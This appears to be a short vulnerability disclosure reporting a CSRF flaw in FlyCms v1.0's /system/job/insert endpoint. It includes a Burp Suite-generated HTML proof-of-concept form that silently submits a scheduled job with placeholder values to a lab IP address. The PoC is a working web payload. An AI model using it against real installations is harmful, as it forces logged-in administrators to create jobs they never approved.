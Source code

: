 target:https://github.com/sunkaifei/FlyCms
version: v1.0

FlyCms v1.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /system/job/insert

![1](https://github.com/NUDTTAN91/cms/assets/127911311/08cd7107-cac9-4d51-9d1e-392876e868ab)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.247.192/system/job/insert" method="POST">
      <input type="hidden" name="beanName" value="cs" />
      <input type="hidden" name="methodName" value="cs" />
      <input type="hidden" name="cronExpression" value="0&#47;10&#32;&#42;&#32;&#42;&#32;&#42;&#32;&#42;&#32;&#63;&#32;&#42;" />
      <input type="hidden" name="params" value="cs" />
      <input type="hidden" name="remark" value="cs" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>



```

![2](https://github.com/NUDTTAN91/cms/assets/127911311/aaf7e5a7-4237-44d5-8245-e4d927851827)


Successed

![3](https://github.com/NUDTTAN91/cms/assets/127911311/d0a5af88-a79e-4690-b200-33db17df722b)

